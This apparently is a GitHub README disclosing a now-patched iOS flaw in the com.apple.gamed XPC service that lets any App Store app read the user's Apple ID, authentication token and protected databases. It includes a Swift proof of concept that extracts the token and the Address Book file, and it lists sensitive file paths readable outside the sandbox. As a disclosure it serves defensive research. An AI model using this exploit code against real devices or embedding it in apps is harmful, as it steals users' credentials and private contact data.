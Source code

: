 # iOS gamed exploit (fixed in 15.0.2)

**Update: Apple has quietly fixed this in iOS 15.0.2 without any kind of public acknowledgement or credit.**

Any app installed from the App Store may access the following data without any prompt from the user:
- Apple ID email and full name associated with it
- Apple ID authentication token which allows to access at least one of the endpoints on *.apple.com on behalf of the user
- Complete file system read access to the Core Duet database (contains a list of contacts from Mail, SMS, iMessage, 3rd-party messaging apps and metadata about all user's interaction with these contacts (including timestamps and statistics), also some attachments (like URLs and texts))
- Complete file system read access to the Speed Dial database and the Address Book database including contact pictures and other metadata like creaton and modification dates (I've just checked on iOS 15 and this one inaccessible, so that must have been quietly fixed)



Here is a short proof of concept.

```swift
let connection = NSXPCConnection(machServiceName: "com.apple.gamed", options: NSXPCConnection.Options.privileged)!
let proxy = connection.remoteObjectProxyWithErrorHandler({ _ in }) as! GKDaemonProtocol
let pid = ProcessInfo.processInfo.processIdentifier
proxy.getServicesForPID(pid, localPlayer: nil, reply: { (accountService, _, _, _, _, _, _, _, utilityService, _, _, _, _) in
	accountService.authenticatePlayerWithExistingCredentials(handler: { response, error in
		let appleID = response.credential.accountName
		let token = response.credential.authenticationToken
	}

	utilityService.requestImageData(for: URL(fileURLWithPath: "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"), subdirectory: nil, fileName: nil, handler: { data in
		let addressBookData = data
	}
}
```

How it happens:
- XPC service `com.apple.gamed` doesn't properly check for `com.apple.developer.game-center` entitlement
- Even if Game Center is disabled on the device, invoking `getServicesForPID:localPlayer:reply:` returns several XPC proxy objects (`GKAccountService`, `GKFriendService`, `GKUtilityService`, etc.).
- If game center is enabled on the device (even if it's not enabled for the app in App Store Connect and app doesn't contain `com.apple.developer.game-center` entitlement), invoking `authenticatePlayerWithExistingCredentialsWithHandler:` on `GKAccountService` returns an object containing Apple ID of the user, DSID and Game Center authentication token (which allows to send requests to `https://gc.apple.com` on behalf of the user). Invoking `getProfilesForPlayerIDs:handler:` on GKProfileService returns an object containing first and last name of the user's Apple ID. Invoking `getFriendsForPlayer:handler:` on `GKFriendService` return an object with information about user's friend in Game Center.
- Even if game center is disabled, it's not enabled for the app in App Store Connect and app doesn't contain `com.apple.developer.game-center` entitlement, invoking `requestImageDataForURL:subdirectory:fileName:handler:` on `GKUtilityService` allows to read arbitrary files outside of the app sandbox by passing file URLs to that method. Among the files (but not limited to) that can be accessed that way are the following:
`/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache/Library/Caches/com.apple.MobileGestalt.plist` - contains mobile gestalt cache
`/var/mobile/Library/CoreDuet/People/interactionC.db` - contains a list of contacts from Mail, SMS, iMessage, 3rd-party messaging apps and metadata about user's interaction with these contacts (including timestamps and statistics)
`/var/mobile/Library/Preferences/com.apple.mobilephone.speeddial.plist` - contains favorite contacts and their phone numbers
`/var/mobile/Library/AddressBook/AddressBook.sqlitedb` - contains complete Address Book database
`/var/mobile/Library/AddressBook/AddressBookImages.sqlitedb` - contains photos of Address book contacts
- Invoking `cacheImageData:inSubdirectory:withFileName:handler:` on GKUtilityService might allow to write arbitrary data to a location outside of the app sandbox.

On the [Apple Security Bounty Program page](https://developer.apple.com/security-bounty/payouts/) this vulnerabilty is evaluated at $100,000 (Broad app access to sensitive data normally protected by a TCC prompt or the platform sandbox. “Sensitive data” access includes gaining a broad access (i.e., the full database) from Contacts).
